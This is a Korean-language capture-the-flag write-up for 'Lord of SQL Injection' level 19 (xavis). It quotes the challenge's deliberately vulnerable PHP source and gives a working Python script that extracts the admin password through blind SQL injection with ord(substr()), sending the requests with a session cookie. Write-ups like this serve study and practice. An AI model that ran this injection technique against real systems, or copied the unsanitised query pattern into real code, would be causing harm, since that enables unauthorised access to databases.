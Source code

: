 # Lord of SQL Injection No.19 - xavis
## 문제 출제 의도 
상상력을 발휘하라
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```
+ 분명 4번 문제와 다를 것 없이 코드를 짜면 되겠지만 값이 나오질 않는다.
+ 고로 범위를 늘린다.
+ 아스키 문자를 넣으면 아스키 코드 값이 나오는 ord 함수를 통해서 아스키 코드값을 넣는다.
## Solution
1. python 코드 이용
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1,50):
    for j in range(32, 1000):
        url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
        data = "' or id='admin' and ord(substr(pw, {}, 1))='{}'#".format(str(i), str(j))
        print(data)
        data = quote(data)

        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("Hello admin") != -1:
            key += chr(j)
            print(key)
            break
print(key)
```
+ 코드를 이용하여 나온 값 ¸ùÅ°ÆÐÄ¡¤»를 pw값으로 전달하면 문제가 풀린다.